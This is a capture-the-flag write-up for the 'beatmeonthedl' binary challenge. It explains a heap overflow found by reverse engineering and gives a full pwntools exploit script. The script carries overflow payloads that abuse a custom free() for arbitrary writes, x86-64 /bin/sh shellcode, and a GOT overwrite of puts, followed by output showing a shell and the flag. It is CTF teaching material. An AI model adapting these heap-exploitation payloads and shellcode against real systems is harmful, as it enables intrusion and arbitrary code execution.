 # Writeup
The challenge gives the beatmeonthedl executable and that's all.
Doing a reverse engineering with IDA, we can note:

1- The main is an organized menu, pretty legible.

![beatmeonthedl1](https://cloud.githubusercontent.com/assets/1280700/25596814/9264fb4a-2ea1-11e7-9129-2dd659003e38.png)

2- The reqlist is stored in the .bss area, more specifically at address 0x609e88. It is an array
of pointers (max of 31 places).

![beatmeonthedl2](https://cloud.githubusercontent.com/assets/1280700/25596815/9267929c-2ea1-11e7-84ba-67a7e1bb1ae3.png)

3- There are buffer overflow vulnerabilities in the add_request and update_request functions. While
the allocated memory for a request string is of 56 bytes (line 15), it allows writing 128 bytes
(line 23).  

![beatmeonthedl3](https://cloud.githubusercontent.com/assets/1280700/25596816/9274b666-2ea1-11e7-9154-d186d88da477.png)

The buffer overflow vulnerabilities cause weird things when deleting an overflowed buffer. After
inspecting for a while through gdb, I noticed that it was possible to write anything to anywhere.
For example, after deleting the input *"A"\*56 + "\x00\x00\x00\x00\x00\x00\x00\x00" +
"\x80\x9e\x60\x00\x00\x00\x00\x00" + "\x90\x9f\x60\x00\x00\x00\x00\x00"*, it writes 0x609f90 in position 3 of reqlist
0x609e98 (0x609e80 + 0x18). 

Using the usual free function from stdlib, this does not happen, and a runtime error of *free():
invalid next size (fast)* occurs. This exaplains why the free function is embedded in the
beatmeonthedl executable.

After confirming this strange behavior, I wrote the script below which gave me a shell.

```python
from pwn import *

p = process("./beatmeonthedl")
#p = remote("beatmeonthedl_498e7cad3320af23962c78c7ebe47e16.quals.shallweplayaga.me", 6969)
res = p.recvuntil("Enter username: ")
p.sendline("mcfly")
res = p.recvuntil("Enter Pass: ")
p.sendline("awesnap")
#adds foir request texts:
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("CCCCCCCC")
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("DDDDDDDD")
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("EEEEEEEE")
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("FFFFFFFF")

#replaces the third text, overflowing the fourth
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("2")
res = p.recvuntil("data: ")
p.sendline("A"*56 + "\x00\x00\x00\x00\x00\x00\x00\x00" + "\x80\x9e\x60\x00\x00\x00\x00\x00" + "\x90\x9f\x60\x00\x00\x00\x00\x00")

#deletes the third text, causing a bug on the free function and writing 0x609f90 at 0x609e80 + 0x18 (fourth position)
res = p.recvuntil("| ")
p.sendline("3")
res = p.recvuntil("choice: ")
p.sendline("2")

#writes our shellcode at 0x609f90 (the fourth position)
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("3")
res = p.recvuntil("data: ")
p.sendline("\x90"*10 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")

#replaces the first text, overflowing the second
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("0")
res = p.recvuntil("data: ")
p.sendline("A"*56 + "\x00\x00\x00\x00\x00\x00\x00\x00" + "\x70\x9e\x60\x00\x00\x00\x00\x00" + "\x58\x99\x60\x00\x00\x00\x00\x00")

#deletes the third text, causing a bug on the free function and writing 0x609958 at 0x609e70 + 0x18 (second position)
res = p.recvuntil("| ")
p.sendline("3")
res = p.recvuntil("choice: ")
p.sendline("0")

#writes the address of our shellcode in the put got
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("1")
res = p.recvuntil("data: ")
p.sendline("\x90\x9f\x60\x00\x00\x00\x00\x00")

p.interactive()
```

```
[+] Opening connection to beatmeonthedl_498e7cad3320af23962c78c7ebe47e16.quals.shallweplayaga.me on
port 6969: Done
[*] Switching to interactive mode
$ ls
beatmeonthedl
flag
$ cat flag
The flag is: 3asy p33zy h3ap hacking!!
```

